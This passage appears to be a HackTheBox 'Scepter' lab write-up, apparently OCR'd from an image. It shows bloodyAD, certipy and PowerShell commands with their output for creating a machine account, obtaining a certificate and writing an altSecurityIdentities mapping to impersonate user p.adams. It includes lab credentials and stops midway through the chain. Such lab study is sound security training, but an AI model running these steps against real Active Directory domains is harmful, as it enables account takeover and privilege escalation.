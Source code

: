 ##### 1\. first create machine account.

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]                                 
└─# bloodyAD -d scepter.htb --dc-ip 10.10.11.65 -u a.carter -p 'Password123.!' add computer ggwp 'Password123'                                                                                         
[+] ggwp created 
```

##### 2\. Ask certificate via machine.

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# certipy req -ca 'scepter-DC01-CA' -target 10.10.11.65 -u 'ggwp$' -p 'Password123' -template 'Machine'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 28
[*] Successfully requested certificate
[*] Got certificate with DNS Host Name 'ggwp.scepter.htb'
[*] Certificate object SID is 'S-1-5-21-74879546-916818434-740295365-9108'
[*] Saving certificate and private key to 'ggwp.pfx'
File 'ggwp.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'ggwp.pfx'
```

###### 3\. and than extract serial number and issuer values from certificate

```bash
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# certipy cert -pfx ggwp.pfx -nokey -out ggwp.crt                                    
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Data written to 'ggwp.crt'
[*] Writing certificate to 'ggwp.crt'

```

```bash
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA
serial=620000001C2F55D7F04D35E78400000000001C
                                                                                                   
┌──(venv)─(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# openssl x509 -noout -text -issuer -serial -in ggwp.crt

```

##### 4\. Add p.adams'in altSecurityIdentities attribute with Add-AltSecIDMapping.ps1.

with Get-AltSecIDMapping.ps1 we check we wrote properly or not.

```bash
PS C:\temp> Add-AltSecIDMapping -DistinguishedName "CN=P.ADAMS,OU=HELPDESK ENROLLMENT CERTIFICATE,DC=SCEPTER,DC=HTB" -MappingString "X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>1C000000000084E7354DF0D7552F1C00000062"
Add-AltSecIDMapping -DistinguishedName "CN=P.ADAMS,OU=HELPDESK ENROLLMENT CERTIFICATE,DC=SCEPTER,DC=HTB" -MappingString "X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>1C000000000084E7354DF0D7552F1C00000062"


PS C:\temp> Get-AltSecIDMapping -SearchBase "CN=P.ADAMS,OU=HELPDESK ENROLLMENT CERTIFICATE,DC=SCEPTER,DC=HTB"
Get-AltSecIDMapping -SearchBase "CN=P.ADAMS,OU=HELPDESK ENROLLMENT CERTIFICATE,DC=SCEPTER,DC=HTB"

CN=p.adams,OU=Helpdesk Enrollment Certificate,DC=scepter,DC=htb
```